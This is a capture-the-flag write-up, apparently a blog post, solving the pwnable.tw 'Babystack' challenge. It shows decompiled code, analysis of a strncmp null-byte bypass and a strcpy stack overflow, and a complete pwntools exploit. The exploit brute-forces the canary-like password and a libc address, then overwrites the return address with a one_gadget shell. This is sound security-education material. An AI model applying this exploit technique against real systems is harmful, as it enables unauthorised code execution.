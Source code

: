```yaml
---
date: '2025-09-01T10:00:35+07:00'
draft: false
title: 'Babystack (250 pts) - pwnable.tw'
tags: ['pwnable.tw']
---
```

---

## 0x1. Initial Reconnaissance

### file
```bash
↪ file babystack
babystack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, stripped
```

### checksec
```bash
↪ checksec --file=babystack
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols	Partial	1		4		babystack
```

### ./babystack
```
↪ ./babystack
>> 1
Your passowrd :
```

---

## 0x2. Reverse Engineering

### main
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *v3; // rcx
  __int64 v4; // rdx
  char v6[64]; // [rsp+0h] [rbp-60h] BYREF
  __int64 buf[2]; // [rsp+40h] [rbp-20h] BYREF
  char v8[16]; // [rsp+50h] [rbp-10h] BYREF

  sub_D30();
  unk_202018 = open("/dev/urandom", 0);
  read(unk_202018, buf, 0x10uLL);
  v3 = qword_202020;
  v4 = buf[1];
  *(_QWORD *)qword_202020 = buf[0];
  v3[1] = v4;
  close(unk_202018);
  do
  {
    while ( 1 )
    {
      write(1, ">> ", 3uLL);
      _read_chk(0LL, v8, 16LL, 16LL);
      if ( v8[0] == 50 )
        break;
      if ( v8[0] == 51 )
      {
        if ( unk_202014 )
          sub_E76(v6);
        else
LABEL_15:
          puts("Invalid choice");
      }
      else
      {
        if ( v8[0] != 49 )
          goto LABEL_15;
        if ( unk_202014 )
          unk_202014 = 0;
        else
          sub_DEF((const char *)buf);
      }
    }
    if ( !unk_202014 )
      exit(0);
  }
  while ( memcmp(buf, qword_202020, 0x10uLL) );
  return 0LL;
}
```

### sub_E76
```c
int __fastcall sub_E76(char *a1)
{
  char src[128]; // [rsp+10h] [rbp-80h] BYREF

  printf("Copy :");
  sub_CA0((unsigned __int8 *)src, 0x3Fu);
  strcpy(a1, src);
  return puts("It is magic copy !");
}
```

### sub_DEF
```c
int __fastcall sub_DEF(const char *a1)
{
  size_t v1; // rax
  char s[128]; // [rsp+10h] [rbp-80h] BYREF

  printf("Your passowrd :");
  sub_CA0((unsigned __int8 *)s, 0x7Fu);
  v1 = strlen(s);
  if ( strncmp(s, a1, v1) )
    return puts("Failed !");
  unk_202014 = 1;
  return puts("Login Success !");
}
```

---

## 0x3. Analysis

In this problem, we have 3 options, choose 1 to input the password up to 128 bytes, 2 to break the first while loop. If you input the right passwords, they will turn ```unk_202014``` to true and allow you to copy 63 bytes to ```v6[64]``` with option 3. The passwords will be stored at ```buf[2]``` on stack and ```qword_202020``` on bss. If you don't wanna stuck in while loop or end the process instantly after breaking the first while loop, you should make sure that ```unk_202014``` is true and the value in ```buf``` and ```qword_202020``` are the same. 

Another noticeable point is that they check the password you input using ```strncmp``` with the length of your input. That means if you input a null value (```\x00```), you can bypass :DD, because ```strlen``` counts til the first null byte.

---

## 0x4. Exploit

I can't think of anything but return address overwritten and buffer overflow. But, to bypass the while loop, I have to have the password. To do that, just brute-force to get the passwords. Because you can input up to 128 bytes to guess the password, at first you can think about brute-force to get return address, which is __libc_call_main, but it's impossible, the last 2 bytes of rbp are null. 

Observe carefully, you can see ```v6[64], buf[2], v8[16], rbp, and return address``` are totally adjecent. And the stack frame of ```sub_E76``` and ```sub_DEF``` are at the same address, ```src[128]``` and ```s[128]``` are at ```rbp-0x80``` too.

Now, look at this:
```
pwndbg> x/2gx $rbp - 0x80 + 0x40
0x7fffffffe540:	0x0000555555400b70	0x00007ffff7878439
pwndbg> vmmap 0x00007ffff7878439
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
    0x555555a00000     0x555555a01000 rw-p     1000    4000 babystack_patched
►   0x7ffff7800000     0x7ffff79bf000 r-xp   1bf000       0 libc_64.so.6 +0x78439
    0x7ffff79bf000     0x7ffff7bbf000 ---p   200000  1bf000 libc_64.so.6
```

Because ```strcpy``` will copy the string until the first null byte. You can use ```sub_DEF``` to input full "A" til ```&s + 0x48```, copy it to ```v6[64]``` to overwrite ```buf[2]```, and brute-force to get IO_new_file_setbuf + 9:DD. Do it again to overwrite one_gadget to return address :b and get the shell.

### Exploit
```py
from pwn import *

exe = ELF("./babystack_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
    else:
        r = remote("chall.pwnable.tw", 10205)

    return r

def password (p, password):
    p.sendafter (b'>> ', b'1' + b'A' * 15)
    p.sendafter (b'Your passowrd :', password)

def copy (p, text):
    p.sendafter (b'>> ', b'3' + b'A' * 15)
    p.sendafter (b'Copy :', text)

bad_chars = [
    0x0a  # LF
]

def backtrack (p, first_string, limit):
    result = b''
    cnt = 0
    while True:
        if (cnt == limit):
            break
        for i in range (1, 256):
            if i in bad_chars:
                continue
            password (p, first_string + result + p8 (i) + b'\x00')
            data = p.recv (3)
            # print ("the result is : ", data.re)
            if b'Log' in data:
                result = result + p8(i)
                break
        p.sendafter (b'>> ', b'1')
        cnt += 1

    return result

def main():
    # IO_new_file_setbuf+9
    p = conn()
    password1 = backtrack (p, b'', 8)
    print ("The first password is : ", hex (u64 (password1)))
    password2 = backtrack (p, password1, 8)
    print ("The second password is : ", hex (u64 (password2)))
    
    password (p, b'A' * 64 + b'A' * 8)
    password (p, b'\x00')
    copy (p, b'A')
    p.sendafter (b'>> ', b'1')
    leak_libc = backtrack (p, b'A' * 8, 6) + b'\x00' * 2
    print ("The address of IO_new_file_setbuf+9 is: ", hex (u64 (leak_libc)))
    libc.address = u64 (leak_libc) - libc.symbols['_IO_file_setbuf'] - 9
    print ("The address of libc is : ", hex (libc.address))



    payload = b'A' * 64 + password1 + password2 + b'3' + b'A' * 15 + b'A' * 8 + p64 (libc.address + 0x45216)
    password (p, payload)
    password (p, b'\x00')
    copy (p, b'A')
    p.sendafter (b'>> ', b'2')


    p.interactive()


if __name__ == "__main__":
    main()
```
